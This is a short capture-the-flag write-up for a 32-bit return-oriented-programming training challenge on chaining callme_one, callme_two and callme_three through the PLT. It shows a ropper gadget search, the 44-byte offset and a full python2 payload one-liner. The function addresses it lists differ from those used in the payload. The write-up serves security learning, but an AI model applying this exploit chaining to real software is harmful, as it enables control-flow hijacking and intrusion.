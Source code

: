 # Contents
- Task Description
- 32 bit

## Task Description
Reliably make consecutive calls to imported functions.  
Use some new techniques and learn about the Procedure Linkage Table.

## 32 bit
Reading the site we need to call three functions while passing in the same three arguments.

args:  `0xdeadbeef`, `0xcafebabe`, `0xd00df00d`
functions: callme_one(), callme_two(), callme_three()

Getting the memory locations of the three functions:
callme_one():     `0xf7fc0d3d`
callme_two():     `0xf7fc0755`
callme_three():   `0xf7fc0855`

We also need a a way to remove the arguments off the stack after before we add the next function or they wont populate correctly.
You can find this gadget by running ropper:
```bash
ropper -f callme32 --search pop

0x080487f9: pop esi; pop edi; pop ebp; ret; 
```
Using this memory location the exploit chain will look like this:
```txt

Offset
callme1
gadget
arg1
arg2
arg3
callme2
gadget
arg1
arg2
arg3
callme3
gadget
arg1
arg2
arg3
```

Next is to find the buffer size.
44

encode everything in little endian and send it to a payload.
```bash
python2 -c 'print "A"*44 + "\xf0\x84\x04\x08" + "\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0"+"\x50\x85\x04\x08"+"\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0" +"\xe0\x84\x04\x08" +"\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0"' > callme-32-payload
```

Which gives the flag :)
```flag
ROPE{a_placeholder_32byte_flag!}
```


---
Creation date: 13-10-2022

Last modified date: Thursday 13th October 2022
***
